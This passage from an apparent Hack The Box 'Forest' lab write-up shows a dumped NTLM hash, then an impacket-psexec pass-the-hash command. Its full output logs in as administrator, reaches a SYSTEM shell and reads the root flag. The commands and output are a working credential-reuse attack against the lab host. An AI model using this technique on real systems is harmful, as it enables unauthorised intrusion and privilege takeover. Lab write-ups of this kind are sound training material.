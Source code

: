 ```
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::

```
Login as admin using impact psexec to pass the hash (pth)
```
impacket-psexec administrator@forest.htb -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
```
kali㉿kali)-[~/Desktop/htb_prep/forest]
└─$ impacket-psexec administrator@forest.htb -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on forest.htb.....
[*] Found writable share ADMIN$
[*] Uploading file cjSlLkwK.exe
[*] Opening SVCManager on forest.htb.....
[*] Creating service YxQa on forest.htb.....
[*] Starting service YxQa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
```
type c:\users\administrator\desktop\root.txt
ipconfig
```
```
──(kali㉿kali)-[~/Desktop/htb_prep/forest]
└─$ impacket-psexec administrator@forest.htb -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on forest.htb.....
[*] Found writable share ADMIN$
[*] Uploading file cjSlLkwK.exe
[*] Opening SVCManager on forest.htb.....
[*] Creating service YxQa on forest.htb.....
[*] Starting service YxQa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
ipconfied47caa88211e690c3a5c7b0d6b486e9

C:\Windows\system32>ipconfig
b"'ipconfigipconfig' is not recognized as an internal or external command,\r\noperable program or batch file.\r\n"
C:\Windows\system32>ip a
b"'ip' is not recognized as an internal or external command,\r\noperable program or batch file.\r\n"
C:\Windows\system32>

```
